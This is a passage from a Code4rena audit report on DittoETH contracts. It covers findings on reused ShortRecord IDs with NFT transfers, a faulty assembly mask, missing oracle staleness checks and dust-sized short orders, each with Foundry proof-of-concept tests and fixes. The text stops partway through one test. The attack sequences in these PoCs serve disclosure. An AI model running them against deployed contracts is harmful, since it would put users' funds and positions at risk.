    assertApproxEqAbs(short.ercDebtRate, (ercDebtRate + m.ercDebtRate) / 2, MAX_DELTA_SMALL);

    ///////Full Liquidation///////
    uint88 amount = short.ercDebt + short.ercDebt.mulU88(diamond.getAssetStruct(asset).ercDebtRate - short.ercDebtRate);
    fundLimitAskOpt(DEFAULT_PRICE, amount, receiver); // Set up full liquidation
    vm.prank(receiver);
    diamond.liquidate(asset, tapp, C.SHORT_STARTING_ID, shortHintArrayStorage, 0);

    // Assert TAPP short fully liquidated and closed
    short = getShortRecord(tapp, C.SHORT_STARTING_ID);
    assertTrue(short.status == SR.Closed);

    // Bring TAPP balance to 0 for easier calculations
    balanceTAPP = diamond.getVaultUserStruct(VAULT.ONE, tapp).ethEscrowed;
    vm.prank(tapp);
    createLimitBid(DEFAULT_PRICE, balanceTAPP.divU88(DEFAULT_PRICE));
    fundLimitAskOpt(DEFAULT_PRICE, balanceTAPP.divU88(DEFAULT_PRICE), receiver);

    //////Partial Liquidation 3//////
    _setETH(4000 ether); // Back to default price
    fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, receiver);
    fundLimitShortOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, sender); // Short Record C.SHORT_STARTING_ID gets re-used
    fundLimitAskOpt(DEFAULT_PRICE, DEFAULT_AMOUNT / 2, receiver); // Set up partial liquidation

    // Partial Liquidation
    _setETH(730 ether); // c-ratio 1.095
    vm.prank(receiver);
    (gasFee,) = diamond.liquidate(asset, sender, C.SHORT_STARTING_ID, shortHintArrayStorage, 0);

    // Assert recreated TAPP short
    short = getShortRecord(tapp, C.SHORT_STARTING_ID);
    assertEq(short.collateral, collateral + m.gasFee - gasFee); // exactly the same, except for diff gas fee
    assertEq(short.ercDebt, ercDebt); // exactly the same
    assertApproxEqAbs(short.ercDebtRate, diamond.getAssetStruct(asset).ercDebtRate, MAX_DELTA_SMALL);
    assertTrue(short.status == SR.FullyFilled);

    // --- PoC start ----
    // C.SHORT_STARTING_ID is still in reuseable id list
    STypes.ShortRecord memory head = getShortRecord(tapp, C.HEAD);
    assertEq(head.prevId, C.SHORT_STARTING_ID);

    address attacker = address(0x1337);
    _setETH(4000 ether); // Back to default price
    fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, receiver);
    fundLimitShortOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, attacker); 

    // make short record NFT
    vm.prank(attacker);
    diamond.mintNFT(asset, 2, 0);
    
    // before transfer, the TAPP C.SHORT_STARTING_ID result is same
    short = getShortRecord(tapp, C.SHORT_STARTING_ID);
    assertEq(short.collateral, collateral + m.gasFee - gasFee); // exactly the same, except for diff gas fee
    assertEq(short.ercDebt, ercDebt); // exactly the same
    assertApproxEqAbs(short.ercDebtRate, diamond.getAssetStruct(asset).ercDebtRate, MAX_DELTA_SMALL);
    assertTrue(short.status == SR.FullyFilled);

    // transfer NFT to TAPP, this will overwrite C.SHORT_STARTING_ID SR of TAPP (create new SR -> reuse id C.SHORT_STARTING_ID)
    vm.prank(attacker);
    diamond.transferFrom(attacker, tapp, 1);

    // after transfer, the TAPP C.SHORT_STARTING_ID SR is manipulated
    short = getShortRecord(tapp, C.SHORT_STARTING_ID);
    assertNotEq(short.collateral, collateral + m.gasFee - gasFee);
    assertNotEq(short.ercDebt, ercDebt);
}
```

</details>

### Recommended Mitigation Steps

Prevents `ShortRecord` NFT from being sent to `TAPPs`.

**[ditto-eth (DittoETH) confirmed and commented](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/236#issuecomment-2043600712):**
 > Great find, solution seems to work too.

***

## [[M-03] The `colRedeemed` variable is wrongly retrieved in `LibBytes::readProposalData` function](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/221)
*Submitted by [Bube](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/221), also found by [maxim371](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/202) and [Rhaydden](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/89)*

The `LibBytes::readProposalData` function uses inline assembly for efficient data extraction from a byte array. The `colRedeemed` variable, which represents an 11-byte value within the `ProposalData` structure, is intended to be extracted by applying a mask to isolate the relevant bytes. However, the current implementation incorrectly uses the `add` operation. That leads to retrieve incorrect value of `colRedeemed` variable:

```javascript

    function readProposalData(address SSTORE2Pointer, uint8 slateLength) internal view returns (MTypes.ProposalData[] memory) {
        bytes memory slate = SSTORE2.read(SSTORE2Pointer);
        // ProposalData is 51 bytes
        require(slate.length % 51 == 0, "Invalid data length");

        MTypes.ProposalData[] memory data = new MTypes.ProposalData[](slateLength);

        for (uint256 i = 0; i < slateLength; i++) {
            // 32 offset for array length, multiply by each ProposalData
            uint256 offset = i * 51 + 32;

            address shorter; // bytes20
            uint8 shortId; // bytes1
            uint64 CR; // bytes8
            uint88 ercDebtRedeemed; // bytes11
            uint88 colRedeemed; // bytes11

            assembly {
                // mload works 32 bytes at a time
                let fullWord := mload(add(slate, offset))
                // read 20 bytes
                shorter := shr(96, fullWord) // 0x60 = 96 (256-160)
                // read 8 bytes
                shortId := and(0xff, shr(88, fullWord)) // 0x58 = 88 (96-8), mask of bytes1 = 0xff * 1
                // read 64 bytes
                CR := and(0xffffffffffffffff, shr(24, fullWord)) // 0x18 = 24 (88-64), mask of bytes8 = 0xff * 8

                fullWord := mload(add(slate, add(offset, 29))) // (29 offset)
                // read 88 bytes
                ercDebtRedeemed := shr(168, fullWord) // (256-88 = 168)
                // read 88 bytes
@>              colRedeemed := add(0xffffffffffffffffffffff, shr(80, fullWord)) // (256-88-88 = 80), mask of bytes11 = 0xff * 11
            }

            data[i] = MTypes.ProposalData({
                shorter: shorter,
                shortId: shortId,
                CR: CR,
                ercDebtRedeemed: ercDebtRedeemed,
                colRedeemed: colRedeemed
            });
        }

        return data;
    }
```

The `add` operation would incorrectly add the mask to the shifted value, potentially resulting in an incorrect value for `colRedeemed`. The correct operation should use `and` to apply the mask and isolate the 11-byte `colRedeemed` value.

The `RedemptionFacet` contract calls the `LibBytes::readProposalData` function and uses `colRedeemed` variable in `claimRedemption` function.

### Proof of Concept

Link to the code [here](<https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBytes.sol#L42>).

The following contract `Assembly` is a simple contract that contains two functions: `incorrectColRedeemed` with the logic from the `LibBytes` contract and the `correctColRedeemed` with the correct logic:

```javascript

// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.23;

contract Assembly {
    function incorrectColRedeemed(uint256 fullWord) public pure returns (uint88) {
        uint88 col;
        assembly {
            col := add(0xffffffffffffffffffffff, shr(80, fullWord))
        }
        return col;
    }

    function correctColRedeemed(uint256 fullWord) public pure returns (uint256) {
        uint88 col;
        assembly {
            col := and(0xffffffffffffffffffffff, shr(80, fullWord))
        }
        return col;
    }
}
```

The following test file contains test function `test_assembly` that compares the returned value from the both functions and shows the differences between the results:

```javascript
contract TestAssembly is Test {

    Assembly asm = new Assembly();

    uint256 testFullWord = 0x1234599990abcdef1234567890abcdef1234567890abcdef1234567890abcdef;

    function test_assembly() external view {
        assert(asm.incorrectColRedeemed(testFullWord) < asm.correctColRedeemed(testFullWord));
        console.log('Incorrect:', asm.incorrectColRedeemed(testFullWord));
        console.log('Correct: ', asm.correctColRedeemed(testFullWord));
    }
```

### Tools Used

Foundry

### Recommended Mitigation Steps

Replace the `add` operation with an `and` operation to correctly apply the mask:

`colRedeemed := and(0xffffffffffffffffffffff, shr(80, fullWord))`.

**[ditto-eth (DittoETH) confirmed](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/221#issuecomment-2043608173)**

***

## [[M-04] `transferShortRecord`: Can transfer a newly created `ShortRecord` using a previously minted NFT](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/174)
*Submitted by [klau5](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/174)*

Can move the newly created `ShortRecord` using the NFT that was minted in the past.

### Proof of Concept

Even if the `ShortRecord` is closed, the previously minted NFT is not burnt. The `s.nftMapping[tokenId].shortRecordId` data is not deleted either. Therefore, when a `ShortRecord` is created by reusing the same ID, the existing NFT points to the new `ShortRecord`.

However, when transferring the NFT and the `ShortRecord`, it does not check whether this NFT is a newly minted NFT or a past NFT. Those who have been allowed to transfer the NFT in the past still can transfer the newly created `ShortRecord`.

```solidity
function transferShortRecord(address from, address to, uint40 tokenId) internal {
    AppStorage storage s = appStorage();

    STypes.NFT storage nft = s.nftMapping[tokenId];
    address asset = s.assetMapping[nft.assetId];
@>  STypes.ShortRecord storage short = s.shortRecords[asset][from][nft.shortRecordId]; // no check for tokenId
    if (short.status == SR.Closed) revert Errors.OriginalShortRecordCancelled();
    if (short.ercDebt == 0) revert Errors.OriginalShortRecordRedeemed();

    // @dev shortOrderId is already validated in mintNFT
    if (short.status == SR.PartialFill) {
        LibOrders.cancelShort(asset, nft.shortOrderId);
    }

    short.tokenId = 0;
    LibShortRecord.deleteShortRecord(asset, from, nft.shortRecordId);
    LibBridgeRouter.transferBridgeCredit(asset, from, to, short.collateral);

    uint8 id = LibShortRecord.createShortRecord(
        asset, to, SR.FullyFilled, short.collateral, short.ercDebt, short.ercDebtRate, short.dethYieldRate, tokenId
    );

    nft.owner = to;
    nft.shortRecordId = id;
    nft.shortOrderId = 0;
}
```

This is PoC. Add it to `ERC721Facet.t.sol` and run it:

```solidity
function test_PoCNFTTransferPossibleWithReusedID() public {
    address attacker = address(0x1337);

    fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, receiver);
    fundLimitShortOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, sender);

    vm.prank(sender);
    diamond.mintNFT(asset, C.SHORT_STARTING_ID, 0);

    STypes.NFT memory nftBefore = diamond.getNFT(1);
    assertEq(nftBefore.owner, sender);
    assertEq(nftBefore.shortRecordId, C.SHORT_STARTING_ID);

    assertEq(diamond.ownerOf(1), sender);
    assertEq(diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID).tokenId, 1);

    vm.prank(sender);
    diamond.approve(attacker, 1); // attakcer approved old SR NFT

    fundLimitAskOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, receiver);
    exitShort(C.SHORT_STARTING_ID, DEFAULT_AMOUNT, DEFAULT_PRICE, sender); // SR Closed

    STypes.NFT memory nftAfterExit = diamond.getNFT(1);
    assertEq(nftAfterExit.owner, nftBefore.owner);
    assertEq(nftBefore.shortRecordId, nftAfterExit.shortRecordId);

    fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, receiver);
    fundLimitShortOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, sender); // shortRecordId reused

    assertEq(diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID).tokenId, 0);

    vm.prank(sender);
    diamond.mintNFT(asset, C.SHORT_STARTING_ID, 0); // mint NFT again with new SR (NFT tokenId #2)

    assertEq(diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID).tokenId, 2);

    STypes.NFT memory nftAfterNewSRCreated = diamond.getNFT(1);
    assertEq(nftAfterNewSRCreated.owner, nftBefore.owner); // but NFT mapping is still exist
    assertEq(nftAfterNewSRCreated.shortRecordId, C.SHORT_STARTING_ID);

    assertEq(diamond.getShortRecord(asset, attacker, C.SHORT_STARTING_ID).collateral, 0); // attacker has no SR
    vm.prank(attacker);
    diamond.transferFrom(sender, attacker, 1); // attacker still can transfer NFT, and move new SR
    assertNotEq(diamond.getShortRecord(asset, attacker, C.SHORT_STARTING_ID).collateral, 0); // attacker successfully transfered SR
}
```

### Recommended Mitigation Steps

```diff
function transferShortRecord(address from, address to, uint40 tokenId) internal {
    AppStorage storage s = appStorage();

    STypes.NFT storage nft = s.nftMapping[tokenId];
    address asset = s.assetMapping[nft.assetId];
    STypes.ShortRecord storage short = s.shortRecords[asset][from][nft.shortRecordId];
    if (short.status == SR.Closed) revert Errors.OriginalShortRecordCancelled();
    if (short.ercDebt == 0) revert Errors.OriginalShortRecordRedeemed();
+   if (short.tokenId != tokenId) revert Errors.NotValidNFT();

    // @dev shortOrderId is already validated in mintNFT
    if (short.status == SR.PartialFill) {
        LibOrders.cancelShort(asset, nft.shortOrderId);
    }

    short.tokenId = 0;
    LibShortRecord.deleteShortRecord(asset, from, nft.shortRecordId);
    LibBridgeRouter.transferBridgeCredit(asset, from, to, short.collateral);

    uint8 id = LibShortRecord.createShortRecord(
        asset, to, SR.FullyFilled, short.collateral, short.ercDebt, short.ercDebtRate, short.dethYieldRate, tokenId
    );

    nft.owner = to;
    nft.shortRecordId = id;
    nft.shortOrderId = 0;
}
```

### Assessed type

Invalid Validation

**[ditto-eth (DittoETH) confirmed, but disagreed with severity and commented](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/174#issuecomment-2061883502):**
 > This scenario is technically possible, but only happens because of user error. I recommend low because a series of mistakes on the user's part would have to occur for this scenario:
> 
> 1. User gives approval to an attacker.
> 2. User closes their SR before the SR is transferred. Why would the user give approval to another address to transfer their SR but then not wait for the transfer to happen?
> 3. And if for some reason the user does not want to transfer anymore they can revoke approval.

**[klau5 (warden) commented](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/174#issuecomment-2063405052):**
 > 
> > 1. User gives approval to an attacker.
> > 2. User closes their SR before the SR is transferred. Why would the user give approval to another address to transfer their SR but then not wait for the transfer to happen?
> 
> This can be problematic not only in attacks, but also in general situations. For example, a user can approve to NFT marketplace contract in order to sell their NFT. A scenario is possible where a user approves an NFT for sale -> the SR is closed -> a new SR is created with the same ID -> and the NFT is sold. 
> 
> A user will think that it doesn't matter if the old NFT is sold because the closed SR will move. A user doesn't realize that the new SR will move when the old NFT is sold.
> 
> > 3. And if for some reason the user does not want to transfer anymore they can revoke approval.
> 
> NFT should be minted independently per SR and should not affect each other. The current implementation implicitly points to multiple SRs with a single NFT. In a strict implementation, the past NFT should point to a closed SR, but due to optimizations, it doesn't.
> 
> Revoking the approval of past SR NFTs to prevent the current SR from moving is not the right solution because it's violate the individuality of NFT and SR, and user would not think that they should revoke past approval to prevent to moving new SR.

**[hansfriese (judge) decreased severity to Medium and commented](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/174#issuecomment-2066577086):**
 > Thanks for your detailed comments. I agree that managing a new SR using prior approval is not a recommended approach. I think Medium is more appropriate for the external requirements.

***

## [[M-05] `oracleCircuitBreaker`: Not checking if price information of asset is stale](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/164)
*Submitted by [klau5](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/164), also found by [0xSecuri](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/193), [Infect3d](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/305), [Bauchibred](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/287), [falconhoof](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/259), [serial-coder](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/252), [nonseodion](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/130), and [Bigsam](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/44)*

<https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L125-L126>

<https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L60>

### Proof of Concept

At `getOraclePrice`,  it does not check if the `timeStamp` of asset token price oracle is in a stale. If it uses outdated price information, users will trade at the wrong price.

```solidity
function getOraclePrice(address asset) internal view returns (uint256) {
    AppStorage storage s = appStorage();
    AggregatorV3Interface baseOracle = AggregatorV3Interface(s.baseOracle);
    uint256 protocolPrice = getPrice(asset);

    AggregatorV3Interface oracle = AggregatorV3Interface(s.asset[asset].oracle);
    if (address(oracle) == address(0)) revert Errors.InvalidAsset();

    try baseOracle.latestRoundData() returns (uint80 baseRoundID, int256 basePrice, uint256, uint256 baseTimeStamp, uint80) {
        if (oracle == baseOracle) {
            // @dev multiply base oracle by 10**10 to give it 18 decimals of precision
            uint256 basePriceInEth = basePrice > 0 ? uint256(basePrice * C.BASE_ORACLE_DECIMALS).inv() : 0;
            basePriceInEth = baseOracleCircuitBreaker(protocolPrice, baseRoundID, basePrice, baseTimeStamp, basePriceInEth);
            return basePriceInEth;
        } else {
            // prettier-ignore
            (
                uint80 roundID,
                int256 price,
                /*uint256 startedAt*/
                ,
@>              uint256 timeStamp,
                /*uint80 answeredInRound*/
            ) = oracle.latestRoundData();
            uint256 priceInEth = uint256(price).div(uint256(basePrice));
@>          oracleCircuitBreaker(roundID, baseRoundID, price, basePrice, timeStamp, baseTimeStamp);
            return priceInEth;
        }
    } catch {
        if (oracle == baseOracle) {
            return twapCircuitBreaker();
        } else {
            // prettier-ignore
            (
                uint80 roundID,
                int256 price,
                /*uint256 startedAt*/
                ,
@>              uint256 timeStamp,
                /*uint80 answeredInRound*/
            ) = oracle.latestRoundData();
@>          if (roundID == 0 || price == 0 || timeStamp > block.timestamp) revert Errors.InvalidPrice();

            uint256 twapInv = twapCircuitBreaker();
            uint256 priceInEth = uint256(price * C.BASE_ORACLE_DECIMALS).mul(twapInv);
            return priceInEth;
        }
    }
```

The `oracleCircuitBreaker` function checks if the Chainlink oracle data for each asset is valid. It does not check if the `timeStamp` is in a stale too.

```solidity
function oracleCircuitBreaker(
    uint80 roundId,
    uint80 baseRoundId,
    int256 chainlinkPrice,
    int256 baseChainlinkPrice,
    uint256 timeStamp,
    uint256 baseTimeStamp
) private view {
@>  bool invalidFetchData = roundId == 0 || timeStamp == 0 || timeStamp > block.timestamp || chainlinkPrice <= 0
        || baseRoundId == 0 || baseTimeStamp == 0 || baseTimeStamp > block.timestamp || baseChainlinkPrice <= 0;

    if (invalidFetchData) revert Errors.InvalidPrice();
}
```

### Recommended Mitigation Steps

Set the `chainlinkStaleLimit` for each asset and check if the price information is not outdated.

```diff
function getOraclePrice(address asset) internal view returns (uint256) {
    AppStorage storage s = appStorage();
    AggregatorV3Interface baseOracle = AggregatorV3Interface(s.baseOracle);
    uint256 protocolPrice = getPrice(asset);

    AggregatorV3Interface oracle = AggregatorV3Interface(s.asset[asset].oracle);
    if (address(oracle) == address(0)) revert Errors.InvalidAsset();

    try baseOracle.latestRoundData() returns (uint80 baseRoundID, int256 basePrice, uint256, uint256 baseTimeStamp, uint80) {
        ...
    } catch {
        if (oracle == baseOracle) {
            return twapCircuitBreaker();
        } else {
            // prettier-ignore
            (
                uint80 roundID,
                int256 price,
                /*uint256 startedAt*/
                ,
                uint256 timeStamp,
                /*uint80 answeredInRound*/
            ) = oracle.latestRoundData();
-           if (roundID == 0 || price == 0 || timeStamp > block.timestamp) revert Errors.InvalidPrice();
+           if (roundID == 0 || price == 0 || timeStamp > block.timestamp || block.timestamp > chainlinkStaleLimit[asset] + timeStamp) revert Errors.InvalidPrice();

            uint256 twapInv = twapCircuitBreaker();
            uint256 priceInEth = uint256(price * C.BASE_ORACLE_DECIMALS).mul(twapInv);
            return priceInEth;
        }
    }

function oracleCircuitBreaker(
    uint80 roundId,
    uint80 baseRoundId,
    int256 chainlinkPrice,
    int256 baseChainlinkPrice,
    uint256 timeStamp,
-   uint256 baseTimeStamp
+   uint256 baseTimeStamp,
+   address asset
) private view {
    bool invalidFetchData = roundId == 0 || timeStamp == 0 || timeStamp > block.timestamp || chainlinkPrice <= 0
-       || baseRoundId == 0 || baseTimeStamp == 0 || baseTimeStamp > block.timestamp || baseChainlinkPrice <= 0;
+       || baseRoundId == 0 || baseTimeStamp == 0 || baseTimeStamp > block.timestamp || baseChainlinkPrice <= 0 || block.timestamp > chainlinkStaleLimit[asset] + timeStamp;
    if (invalidFetchData) revert Errors.InvalidPrice();
}
```

### Assessed type

Oracle

**[ditto-eth (DittoETH) confirmed and commented via duplicate Issue #252](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/252#issuecomment-2066837313):**
>Agree, this seems like a valid issue. Returned base oracle price could be stale.

**[hansfriese (judge) commented](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/164#issuecomment-2067961822):**
 > I will maintain this as a primary issue since it encompasses both concerns. Additionally, I will allocate partial credit to other findings explaining only one case.
 >
 > FYI, it should check if `price <= 0` instead of `price == 0` in the catch block.

***

## [[M-06] `ShortOrders` can be created with `ercAmount == minAskEth/2`, increasing the gas costs for matching large orders and disincentivizing liquidators from liquidating them](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/129)
*Submitted by [nonseodion](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/129), also found by [0xbepresent](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/158)*

A user can create a `ShortOrder` with `ercAmount == minAskEth/2` by matching the `ShortOrder` with a bid that fills it up to `minAskEth/2` and exiting the `ShortRecord` leaving only `minAskEth/2` in the `ShortOrder` with an empty `ShortRecord`.

### Description

This issue makes use of two properties in the codebase.

1. A `ShortOrder` can be matched such that only `minAskEth/2` remains in the `ShortOrder`.

A `ShortOrder` on the market can be matched by an incoming bid. This match is done in the call to `bidMatchAlgo()` function. Which tries to fill the bid with asks or shorts in the market.

[BidOrdersFacet.sol#L106-L111](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L106-L111)

```solidity
        if (incomingBid.price >= lowestSell.price && (lowestSell.orderType == O.LimitAsk || lowestSell.orderType == O.LimitShort)) {
            // @dev if match and match price is gt .5% to saved oracle in either direction, update startingShortId
            LibOrders.updateOracleAndStartingShortViaThreshold(asset, LibOracle.getPrice(asset), incomingBid, shortHintArray);
            b.shortHintId = b.shortId = Asset.startingShortId;
            b.oraclePrice = LibOracle.getPrice(asset);
❌          return bidMatchAlgo(asset, incomingBid, orderHintArray, b);
```

In the call to `bidMatchAlgo()`, it goes through a loop and on each iteration, it first tries to match `lowestSell` in line 155 below. `lowestSell` is the current lowest bid or ask.  After matching it compares the `ercAmount` in the bid and lowest sell.

If the `ercAmount` in the lowest sell exceeds that in the bid, the bid is filled and executes the `else` statement in line 179 below. If the amount left in the lowest sell is `>=` `LibAsset.minAskEth(asset).mul(C.DUST_FACTOR)`, `b.dustShortId` and `b.dustAskId` are set to zero in line 191 below. This ensures the lowest sell isn't deleted in the call to `matchIncomingBid()` function.

[BidOrdersFacet.sol#L155-L197](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L155-L197)

```solidity
155:                 matchlowestSell(asset, lowestSell, incomingBid, matchTotal);
156:                 if (incomingBid.ercAmount > lowestSell.ercAmount) {
157:                     incomingBid.ercAmount -= lowestSell.ercAmount;
158:                     lowestSell.ercAmount = 0; 
159:                     if (lowestSell.isShort()) {
160:                         b.matchedShortId = lowestSell.id;
161:                         b.prevShortId = lowestSell.prevId;
162:                         LibOrders.matchOrder(s.shorts, asset, lowestSell.id);
163:                         _shortDirectionHandler(asset, lowestSell, incomingBid, b);
164:                     } else {
165:                         b.matchedAskId = lowestSell.id;
166:                         LibOrders.matchOrder(s.asks, asset, lowestSell.id);
167:                         b.askId = lowestSell.nextId;
168:                     }
169:                 } else {
170:                     if (incomingBid.ercAmount == lowestSell.ercAmount) {
171:                         if (lowestSell.isShort()) {
172:                             b.matchedShortId = lowestSell.id;
173:                             b.prevShortId = lowestSell.prevId;
174:                             LibOrders.matchOrder(s.shorts, asset, lowestSell.id);
175:                         } else {
176:                             b.matchedAskId = lowestSell.id;
177:                             LibOrders.matchOrder(s.asks, asset, lowestSell.id);
178:                         }
179:                     } else {
180:                         lowestSell.ercAmount -= incomingBid.ercAmount;
181:                         if (lowestSell.isShort()) {
182:                             b.dustShortId = lowestSell.id;
183:                             STypes.Order storage lowestShort = s.shorts[asset][lowestSell.id];
184:                             lowestShort.ercAmount = lowestSell.ercAmount;
185:                         } else {
186:                             b.dustAskId = lowestSell.id;
187:                             s.asks[asset][lowestSell.id].ercAmount = lowestSell.ercAmount;
188:                         }
189:                         // Check reduced dust threshold for existing limit orders
190:                         if (lowestSell.ercAmount.mul(lowestSell.price) >= LibAsset.minAskEth(asset).mul(C.DUST_FACTOR)) {
191:                             b.dustShortId = b.dustAskId = 0;
192:                         }
193:                     }
194:                     incomingBid.ercAmount = 0;
195:                     return matchIncomingBid(asset, incomingBid, matchTotal, b);
196:                 }
197:             } else {
```

If the amount in `lowestSell` is less than `LibAsset.minAskEth(asset).mul(C.DUST_FACTOR)`, `matchIncomingBid()` deletes in the code section below.

[BidOrdersFacet.sol#L292-L296](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L292-L296)

```solidity
        if (b.dustAskId > 0) {
            IDiamond(payable(address(this)))._cancelAsk(asset, b.dustAskId);
        } else if (b.dustShortId > 0) {
            IDiamond(payable(address(this)))._cancelShort(asset, b.dustShortId);
        }
```

`LibAsset.minAskEth(asset).mul(C.DUST_FACTOR)` translates to `minAskEth/2` because `C.DUST_FACTOR` is a constant and is 0.5 ether. So if a `ShortOrder` has `minAskEth/2` it won't be deleted.

2. A `ShortRecord` can be exited with the id of a cancelled `ShortOrder` that still points to it. 

When a call is made to the `exitShortWallet()` or `exitShortErcEscrowed()` function, `shortOrderId` is passed which is expected to be the order id of the `ShortRecord` currently being exited. `exitShortWallet()` function calls `checkShortMinErc()` and passes the `shortOrderId`.

[ExitShortFacet.sol#L67-L73](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L67-L73)

```solidity
        LibSRUtil.checkShortMinErc({
            asset: asset,
            initialStatus: initialStatus,
            shortOrderId: shortOrderId,
            shortRecordId: id,
            shorter: msg.sender
        });
```

In the call to `checkShortMinErc()`, the `shortOrderId` is verified in line 94 below by checking if the `shortOrder` currently points to `ShortRecord` or if its address points to the `shorter`, i.e. the owner of the `ShortRecord`.

[LibSRUtil.sol#L81-L99](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L81-L99)

```solidity
091:         if (initialStatus == SR.PartialFill) {
092:             // Verify shortOrder
093:             STypes.Order storage shortOrder = s.shorts[asset][shortOrderId];
094:             if (shortOrder.shortRecordId != shortRecordId || shortOrder.addr != shorter) revert Errors.InvalidShortOrder();
095: 
096:             if (shortRecord.status == SR.Closed) {
097:                 // Check remaining shortOrder
098:                 if (shortOrder.ercAmount < minShortErc) {
099:                     // @dev The resulting SR will not have PartialFill status after cancel
100:                     LibOrders.cancelShort(asset, shortOrderId);
101:                     isCancelled = true;
102:                 }
103:             } else {
104:                 // Check remaining shortOrder and remaining shortRecord
105:                 if (shortOrder.ercAmount + shortRecord.ercDebt < minShortErc) revert Errors.CannotLeaveDustAmount();
106:             }
107:         } else if (shortRecord.status != SR.Closed && shortRecord.ercDebt < minShortErc) {
108:             revert Errors.CannotLeaveDustAmount();
109:         }
```

Note: it doesn't check if the `ShortOrder` is cancelled. This means we can use a cancelled `ShortOrder` that points to the `ShortRecord` and is owned by the owner of the `ShortRecord` being exited.

A malicious user can use these two properties of the codebase to create a `ShortOrder` that has `minAskEth/2` as `ercAmount` and `0` debt in its `ShortRecord` by following these setps:

1. Create 1 `shortOrder` with address A and another with address B. They shouldn't get matched.
2. Cancel address A's `shortOrder` than cancel address B's. This order is strict and is to ensure Address B's `ShortOrder` is reused before address A's.
3. Create another `ShortOrder` with address A of 3000 DUSD that doesn't get matched. This short will reuse the id of the `ShortRecord` associated with its first `ShortOrder` but will reuse address B's `ShortOrder` as its `ShortOrder`. This leaves address A's former `ShortOrder` cancelled but still pointing to its `ShortRecord`.
4. Create a Bid of `3000 - minAskEth/2 DUSD` to match the `ShortOrder` and leave `minAskEth/2` in the `ShortOrder`. This also lets the `ShortOrder` have a `PartiallyFilled` status to pass the check on line 91 above.
5. Exit the `ShortOrder` with `3000 - minAskEth/2` DUSD as `buybackAmount` and the former id of address A's cancelled `ShortOrder`. The `buybackAmount` is the amount of debt (DUSD) to pay back. So we'll be paying everything back.
6. After paying back we'll have an empty `ShortRecord` and the `ShortOrder` will have an ercAmount of `minAskEth/2`.

If the `minAskEth` is small, we'll end up creating small `ShortOrder`s in the market. `ShortOrders` like this may make a transaction trying to fill a large order run out of gas and may disincentivize liquidators from liquidating them if they become liquidatable.

### Impact

The issue above has the following effects:

1. Large orders may run out of gas if a malicious user puts many orders with `minAskEth/2` erc amounts on the market.
2. Liquidators are disincentivized from liquidating them because of their small amounts.

### Proof of Concept

The test below can be run in the [Shorts.t.sol](https://github.com/code-423n4/2024-03-dittoeth/blob/main/test/Shorts.t.sol) file. It shows how a malicious user can create a `ShortOrder` with a small amount.

Make sure to import the library below:

`import {STypes, MTypes, O, SR} from "contracts/libraries/DataTypes.sol";`

```solidity
    function test_CreateTinySR() public {
        // create two short orders 
        fundLimitShortOpt(0.5 ether, 2000 ether, receiver);
        fundLimitShortOpt(1 ether, 5000 ether, sender);
        
        vm.prank(sender);
        cancelShort(101); // cancel sender's short order so it won't be the first reused order
        
        vm.startPrank(receiver);
        cancelShort(100); // cancel receiver's short order so it will be the first reused order
        vm.stopPrank();
        
        // 1. Create a short add it to the market, the short reuses id 100 (receiver's former short).
        // 2. Create a bid and let it match the short leaving minAskEth/2 i.e. minAskEth*dustFactor.
        //    The dust factor is 0.5.
        uint minAskEth = diamond.getAssetNormalizedStruct(asset).minAskEth;
        uint88 debt = uint88(3000 ether - minAskEth/2);
        fundLimitShortOpt(1 ether, 3000 ether, sender);
